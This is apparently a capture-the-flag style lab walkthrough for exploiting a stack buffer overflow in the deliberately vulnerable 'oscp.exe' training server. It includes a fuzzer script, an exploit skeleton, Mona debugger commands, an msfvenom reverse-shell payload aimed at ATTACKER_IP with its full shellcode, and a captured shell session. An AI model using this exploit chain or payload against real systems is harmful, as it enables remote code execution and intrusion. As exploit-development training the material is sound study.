# Buffer Overflow Prep

### **Buffer Overflow Prep** 

* Win7 VM with Immunity Debugger and PuTTY installed.
* Login over RDP using xfreerdp.

xfreerdp /u:admin /p:password /cert-ignore /v:TARGET\_IP /workarea

* Choose "Home" option if Windows prompts for network location.
* [Exploiting buffer overflows cheat sheet](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)

### **"oscp.exe" Overflow** 

* Right-click "Immunity Debugger" > "Run as administrator".

.png>)

* "File" > "Open" > navigate to "vulnerable-apps" folder > "oscp" folder > "oscp.exe" > "Open".
* "Debug" > "Run".
* oscp.exe binary runs in terminal window.



* Connect to port 1337 using netcat on attack host.

nc TARGET\_IP 1337

Welcome to OSCP Vulnerable Server! Enter HELP for help.

HELP

Valid Commands:

HELP

OVERFLOW1 \[value]

\[...snip...]

EXIT

* Choose "OVERFLOW 1 test".

OVERFLOW1 test

OVERFLOW1 COMPLETE

* Terminate netcat connection.

#### **Mona Configuration** 

* Configure Mona working folder.
* Run command in input box at bottom of Immunity Debugger window.

!mona config -set workingfolder c:\mona\\%p



#### **Fuzzing** 

* Create "fuzzer.py" file on attack host.

\#!/usr/bin/env python3

import socket, time, sys

ip = "TARGET\_IP"

port = 1337

timeout = 5

prefix = "OVERFLOW1 "

string = prefix + "A" \* 100

while True:

try:

with socket.socket(socket.AF\_INET, socket.SOCK\_STREAM) as s:

s.settimeout(timeout)

s.connect((ip, port))

s.recv(1024)

print("Fuzzing with {} bytes".format(len(string) - len(prefix)))

s.send(bytes(string, "latin-1"))

s.recv(1024)

except:

print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))

sys.exit(0)

string += 100 \* "A"

time.sleep(1)

* Run script using python.

python3 fuzzer.py

* Script sends increasingly long strings comprised of As.
* Fuzzer exits with error message if it crashes target host with one of the strings.
* Note largest number of bytes that were sent.
  * Fuzzing with 1900 bytes succeeded.
  * Fuzzing crashed at 2000 bytes.

#### **Crash Replication and Controlling EIP** 

* Create "exploit.py" file on attack host.

import socket

ip = "TARGET\_IP"

port = 1337

prefix = "OVERFLOW1 "

offset = 0

overflow = "A" \* offset

retn = ""

padding = ""

payload = ""

postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)

try:

s.connect((ip, port))

print("Sending evil buffer...")

s.send(bytes(buffer + "\r\n", "latin-1"))

print("Done!")

except:

print("Could not connect.")

* Generate cyclic pattern of length 400 bytes longer than string that crashed the server.

/usr/share/metasploit-framework/tools/exploit/pattern\_create.rb -l 2400

* \-l value specifies number of bytes.
* Place output into "payload "variable of "exploit.py" script.
* Re-open "oscp.exe" binary in Immunity Debugger on target host > click red play icon to run it.

.png>)

* Run modified "exploit.py" script on attack host.

python3 exploit.py

Sending evil buffer...

Done!

* Script crashes oscp server.
* Run mona command in Immunity Debugger command input box.

!mona findmsp -distance 2400

* \-distance is length of cyclic pattern.



* Output displays EIP offset.

EIP contains normal pattern : 0x6f43396e (offset 1978)

* Update "exploit.py" script.
  * Set "offset" variable to 1978.
  * Set "payload" variable to empty string.
  * Set "retn" variable to "BBBB".
* Re-open "oscp.exe" binary in Immunity Debugger on target host > click red play icon to run it.
* Run modified "exploit.py" script.
* EIP register now overwritten with the 4 Bs - hex 42424242.



#### **Finding Bad Characters** 

* Generate bytearray using mona.
  * Exclude null byte (\x00) by default.

!mona bytearray -b "\x00"



* Location of "bytearray.bin" is "c:\mona\oscp\bytearray.bin".
* Generate string of bad characters identical to bytearray.
  * Python script generates string of bad chars from \x01 to \xff.

for x in range(1, 256):

print("\\\x" + "{:02x}".format(x), end='')

print()

* Set "payload" variable of "exploit.py" script to string of bad characters generated by script.
* Re-open "oscp.exe" binary in Immunity Debugger on target host > click red play icon to run it.
* Run modified "exploit.py" script.
* Note what address ESP register points to in "Registers" window.



* Add address to mona comparison command.

!mona compare -f c:\mona\oscp\bytearray.bin -a 0190fa30



* Window shows result of comparison and any characters different in memory to those generated by "bytearray.bin" binary.
* Not all of these might be badchars!
  * Sometimes badchars cause next byte to get corrupted too - or even affect the rest of the string.
* First badchar in list is null byte (\x00) as this was excluded from "bytearray.bin" file.
  * Note the other possible badchars (07 08 2e 2f a0 a1).
* Restart "oscp.exe" in Immunity.
* Generate new bytearray in mona specifying the identified badchar and null byte.

!mona bytearray -b "\x00\x07"

* Remove \x07 character from "payload" variable in "exploit.py" script.
* Run modified "exploit.py" script.
  * ESP = 0188fa30
* Compare using mona.

!mona compare -f c:\mona\oscp\bytearray.bin -a 0188fa30



* Restart "oscp.exe" in Immunity.
* Generate new bytearray in mona specifying the identified badchars and null byte.

!mona bytearray -b "\x00\x07\x2e"

* Remove \x2e character from "payload" variable in "exploit.py" script.
* Run modified "exploit.py" script.
  * ESP = 019bfa30
* Compare using mona.

!mona compare -f c:\mona\oscp\bytearray.bin -a 019bfa30



* Restart "oscp.exe" in Immunity.
* Generate new bytearray in mona specifying the identified badchars and null byte.

!mona bytearray -b "\x00\x07\x2e\xa0"

* Remove \xa0 character from "payload" variable in "exploit.py" script.
* Run modified "exploit.py" script.
  * ESP = 018ffa30
* Compare using mona.

!mona compare -f c:\mona\oscp\bytearray.bin -a 018ffa30



* Results status returns "Unmodified".
  * This indicates no more badchars exist.

#### **Finding a Jump Point** 

* Run mona command updating -cpb with identified badchars.

!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"

* Finds all "jmp esp" instructions with addresses not containing any specified badchars.
* Results display in "Log data" window.[ ](https://private-user-images.githubusercontent.com/157394432/312776746-73de0f8e-3e43-4ef4-9b7e-fba1fb301ca3.png?jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3MTMyNzE1MTMsIm5iZiI6MTcxMzI3MTIxMywicGF0aCI6Ii8xNTczOTQ0MzIvMzEyNzc2NzQ2LTczZGUwZjhlLTNlNDMtNGVmNC05YjdlLWZiYTFmYjMwMWNhMy5wbmc\_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjQwNDE2JTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI0MDQxNlQxMjQwMTNaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT1hMmI2OGRiMTc4N2Y5MjI1YTUzMTBkMDdiMmYwNTE5ZGU1NjQ0NjA0ZWJlYjcwYjQ4NzllYjZiZmNiNDAwZTgxJlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCZhY3Rvcl9pZD0wJmtleV9pZD0wJnJlcG9faWQ9MCJ9.l5-SRY4PowDwUhI-SQ9Ke-yOEYhNvDJzoEJIMoIbHyU)
* Set "retn" variable of "exploit.py" to first address written backwards - system is little endian.
  * E.g. \x62\x50\x11\xaf = \xaf\x11\x50\x62.

#### **Generate Payload** 

* Use msfvewnom to create payload.
  * LHOST is attack host is.
  * \-b option is all identified badchars.

msfvenom -p windows/shell\_reverse\_tcp LHOST=ATTACKER\_IP LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c

\[...snip...]

"\xb8\xe8\xa3\x7a\x51\xd9\xc9\xd9\x74\x24\xf4\x5f\x33\xc9"

"\xb1\x52\x83\xef\xfc\x31\x47\x0e\x03\xaf\xad\x98\xa4\xd3"

"\x5a\xde\x47\x2b\x9b\xbf\xce\xce\xaa\xff\xb5\x9b\x9d\xcf"

"\xbe\xc9\x11\xbb\x93\xf9\xa2\xc9\x3b\x0e\x02\x67\x1a\x21"

"\x93\xd4\x5e\x20\x17\x27\xb3\x82\x26\xe8\xc6\xc3\x6f\x15"

"\x2a\x91\x38\x51\x99\x05\x4c\x2f\x22\xae\x1e\xa1\x22\x53"

"\xd6\xc0\x03\xc2\x6c\x9b\x83\xe5\xa1\x97\x8d\xfd\xa6\x92"

"\x44\x76\x1c\x68\x57\x5e\x6c\x91\xf4\x9f\x40\x60\x04\xd8"

"\x67\x9b\x73\x10\x94\x26\x84\xe7\xe6\xfc\x01\xf3\x41\x76"

"\xb1\xdf\x70\x5b\x24\x94\x7f\x10\x22\xf2\x63\xa7\xe7\x89"

"\x98\x2c\x06\x5d\x29\x76\x2d\x79\x71\x2c\x4c\xd8\xdf\x83"

"\x71\x3a\x80\x7c\xd4\x31\x2d\x68\x65\x18\x3a\x5d\x44\xa2"

"\xba\xc9\xdf\xd1\x88\x56\x74\x7d\xa1\x1f\x52\x7a\xc6\x35"

"\x22\x14\x39\xb6\x53\x3d\xfe\xe2\x03\x55\xd7\x8a\xcf\xa5"

"\xd8\x5e\x5f\xf5\x76\x31\x20\xa5\x36\xe1\xc8\xaf\xb8\xde"

"\xe9\xd0\x12\x77\x83\x2b\xf5\x72\x5e\x1f\x30\xeb\x5c\x5f"

"\x2b\xb7\xe9\xb9\x21\x57\xbc\x12\xde\xce\xe5\xe8\x7f\x0e"

"\x30\x95\x40\x84\xb7\x6a\x0e\x6d\xbd\x78\xe7\x9d\x88\x22"

"\xae\xa2\x26\x4a\x2c\x30\xad\x8a\x3b\x29\x7a\xdd\x6c\x9f"

"\x73\x8b\x80\x86\x2d\xa9\x58\x5e\x15\x69\x87\xa3\x98\x70"

"\x4a\x9f\xbe\x62\x92\x20\xfb\xd6\x4a\x77\x55\x80\x2c\x21"

"\x17\x7a\xe7\x9e\xf1\xea\x7e\xed\xc1\x6c\x7f\x38\xb4\x90"

"\xce\x95\x81\xaf\xff\x71\x06\xc8\x1d\xe2\xe9\x03\xa6\x02"

"\x08\x81\xd3\xaa\x95\x40\x5e\xb7\x25\xbf\x9d\xce\xa5\x35"

"\x5e\x35\xb5\x3c\x5b\x71\x71\xad\x11\xea\x14\xd1\x86\x0b"

"\x3d";

* Copy generated C code string into "payload" variable of "exploit.py" script enclosed by brackets.

payload = ("\xb8\xe8\xa3\x7a\x51\xd9\xc9\xd9\x74\x24\xf4\x5f\x33\xc9"

"\xb1\x52\x83\xef\xfc\x31\x47\x0e\x03\xaf\xad\x98\xa4\xd3"

"\x5a\xde\x47\x2b\x9b\xbf\xce\xce\xaa\xff\xb5\x9b\x9d\xcf"

"\xbe\xc9\x11\xbb\x93\xf9\xa2\xc9\x3b\x0e\x02\x67\x1a\x21"

"\x93\xd4\x5e\x20\x17\x27\xb3\x82\x26\xe8\xc6\xc3\x6f\x15"

"\x2a\x91\x38\x51\x99\x05\x4c\x2f\x22\xae\x1e\xa1\x22\x53"

"\xd6\xc0\x03\xc2\x6c\x9b\x83\xe5\xa1\x97\x8d\xfd\xa6\x92"

"\x44\x76\x1c\x68\x57\x5e\x6c\x91\xf4\x9f\x40\x60\x04\xd8"

"\x67\x9b\x73\x10\x94\x26\x84\xe7\xe6\xfc\x01\xf3\x41\x76"

"\xb1\xdf\x70\x5b\x24\x94\x7f\x10\x22\xf2\x63\xa7\xe7\x89"

"\x98\x2c\x06\x5d\x29\x76\x2d\x79\x71\x2c\x4c\xd8\xdf\x83"

"\x71\x3a\x80\x7c\xd4\x31\x2d\x68\x65\x18\x3a\x5d\x44\xa2"

"\xba\xc9\xdf\xd1\x88\x56\x74\x7d\xa1\x1f\x52\x7a\xc6\x35"

"\x22\x14\x39\xb6\x53\x3d\xfe\xe2\x03\x55\xd7\x8a\xcf\xa5"

"\xd8\x5e\x5f\xf5\x76\x31\x20\xa5\x36\xe1\xc8\xaf\xb8\xde"

"\xe9\xd0\x12\x77\x83\x2b\xf5\x72\x5e\x1f\x30\xeb\x5c\x5f"

"\x2b\xb7\xe9\xb9\x21\x57\xbc\x12\xde\xce\xe5\xe8\x7f\x0e"

"\x30\x95\x40\x84\xb7\x6a\x0e\x6d\xbd\x78\xe7\x9d\x88\x22"

"\xae\xa2\x26\x4a\x2c\x30\xad\x8a\x3b\x29\x7a\xdd\x6c\x9f"

"\x73\x8b\x80\x86\x2d\xa9\x58\x5e\x15\x69\x87\xa3\x98\x70"

"\x4a\x9f\xbe\x62\x92\x20\xfb\xd6\x4a\x77\x55\x80\x2c\x21"

"\x17\x7a\xe7\x9e\xf1\xea\x7e\xed\xc1\x6c\x7f\x38\xb4\x90"

"\xce\x95\x81\xaf\xff\x71\x06\xc8\x1d\xe2\xe9\x03\xa6\x02"

"\x08\x81\xd3\xaa\x95\x40\x5e\xb7\x25\xbf\x9d\xce\xa5\x35"

"\x5e\x35\xb5\x3c\x5b\x71\x71\xad\x11\xea\x14\xd1\x86\x0b"

"\x3d")

#### **Prepend NOPs** 

* Need memory space for payload to unpack.
* Set "padding" variable of "exploit.py" to string of 16 or more "No Operation" (\x90) bytes.

padding = "\x90" \* 16

#### **Exploit!** 

* Exploit buffer overflow to get reverse shell.
  * Correct prefix.
  * Correct offset.
  * Correct return address.
  * Correct padding.
  * Payload set.
* Start netcat listener on attack host.
* Restart "oscp.exe" in Immunity.
* Run modified "exploit.py" script.
* Netcat listener catches reverse shell.

Connection from 10.10.50.78 49294 received!

Microsoft Windows \[Version 6.1.7601]

Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>whoami

whoami

oscp-bof-prep\admin
